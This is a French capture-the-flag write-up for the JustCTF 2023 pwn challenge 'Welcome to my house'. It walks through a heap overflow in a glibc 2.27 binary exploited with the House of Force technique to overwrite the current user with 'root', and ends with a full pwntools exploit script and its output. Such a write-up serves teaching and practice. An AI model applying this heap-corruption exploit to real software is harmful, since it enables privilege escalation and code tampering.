 ```yaml
---
title: JustCTF 2023 - Welcome to my house
date: 2024-11-02
tags: 
- heap exploitation
- house of force
category: 
- pwn
---
```


# Découverte du challenge

file
```bash
› file house_patched                 
house_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=efb671ee78fcd896b0e79a07aa8cb08817475d31, not stripped
```

checksec
```
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

ldd
```
› ldd house_patched
	linux-vdso.so.1 (0x000078f5573e8000)
	libc.so.6 => ./libc.so.6 (0x000078f556c00000)
	./ld-2.27.so => /usr/lib64/ld-linux-x86-64.so.2 (0x000078f5573ea000)
```

glibc version
```
libc 2.27
```


En lancant le challenge on a la possibilité de faire : 
- Créer un utilisateur
- Lire le flag

```
[!]	Welcome in my house!	[!]

Actual user: admin

1. Create user
2. Read flag
3. Exit
```

On ne peut lire le flag seulement si on est l'utilisateur root, ici nous sommes admin.

```
>>  2

[-] You have to be root to read flag!
```

La commande "Create user" va faire : 
- Demander un nom d'utilisateur
- Demander un mot de passe
- Demander une taille de disque ??

En reversant cette méthode, on comprend que le programme alloue des chunks pour chaque variable qu'il va nous demander.   

Une partie intéressante ici : on contrôle la taille du chunk qui va être alloué pour l'espace disque.
De plus, le contenu de "password" est copié vers un chunk de taille 0x18 à la suite du chunk pour notre espace mémoire.
Pour finir, plusieurs heap overflow sont possibles. 

```c
int64_t create_user(){
	void* fsbase
    int64_t rax = *(fsbase + 0x28)
    printf("Enter username: ")
    int64_t ptr_username = malloc(0x19)
	__isoc99_scanf(&data_400c29, ptr_username)
    putchar(0xa)
    strcpy(malloc(0x18), ptr_username)
    printf("Enter password: ")
    int64_t ptr_password = malloc(0x18)
    __isoc99_scanf(&data_400c29, ptr_password)
    putchar(0xa)
    printf("Enter disk space: ")
    putchar(0xa)
    int64_t var_30
    __isoc99_scanf(&data_400c50, &var_30)
    malloc(var_30)
    int64_t rax_12 = malloc(0x18)
    strcpy(rax_12, ptr_password, rax_12)
    int64_t rax_15 = rax ^ *(fsbase + 0x28)
    if (rax_15 != 0)
	    rax_15 = __stack_chk_fail()
    return rax_15
}
```

**Idée** : Est ce qu'on pourrait utiliser la technique house of force pour écraser le top chunk, combler le vide qu'il y a entre notre position sur la heap et notre target, puis écraser le contenu de la target par "root" ?

Alors c'est partie !

Pour commencer, on utiliser le heap overflow pour écraser le top chunk et y placer la taille maximum (0xFFFFFFFFFFFFFFFF)

```pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000251	........Q.......
...
0x603250	0x0000000000000000	0x0000000000000021	........!.......
0x603260	0x0000006e696d6461	0x0000000000000000	admin...........
0x603270	0x0000000000000000	0x0000000000000031	........1.......
0x603280	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603290	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x6032a0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA	 <-- Top chunk
```

Ensuite, on calcule la distance qui sépare notre notre variable target avec notre position actuelle dans la heap.
Notre binaire n'étant pas PIE, on trouve les adresses grâce à GDB.

```python
target = 0x603250
heap = 0x603300

def delta(x,y):
    return (0xffffffffffffffff - x) + y
dist = delta(heap, target+16)
```

Maintenant, on construit notre payload: 
- On remplit les userdata du chunk avec des données junk, puis on écrase le TOP CHUNK avec un très grand nombre (cela nous permettera de faire de très grosses allocations).
- La variable password doit être à 'root' car elle sera copié par la suite dans notre target
- Comme taille pour l'espace disque, on calcule la distance qu'il y a entre notre position dans la heap et notre target.

```python
create_user(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
read_flag()
```

## Output

```bash
› python xpl.py
[+] Starting local process './house_patched': pid 602233
[*] Target: 0x603250
[*] Heap: 0x603300
[*] Dist: 0xffffffffffffff5f
FLAG{f4k3_fl4g_f0r_t3st1ng}

[*] Stopped process './house_patched' (pid 602233)
```

et voila !

## Full exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './house_patched'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# create user
def cu(username, password, size):
    io.sendlineafter(b">>  ", b"1")
    io.sendlineafter(b"username:", username)
    io.sendlineafter(b"password:", password)
    io.sendlineafter(b"space:", str(size).encode())

# read flag
def rf():
    io.sendlineafter(b">>  ", b"2")
    io.recvline()
    print(io.recvline().decode())

def delta(x,y):
    return (0xffffffffffffffff - x) + y

gdbscript = '''
b create_user
'''.format(**locals())

target = 0x603250
heap = 0x603300
dist= delta(heap, target+16)

io = start()

info(f"Target: {hex(target)}")
info(f"Heap: {hex(heap)}")
info(f"Dist: {hex(dist)}")

cu(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
rf()
```

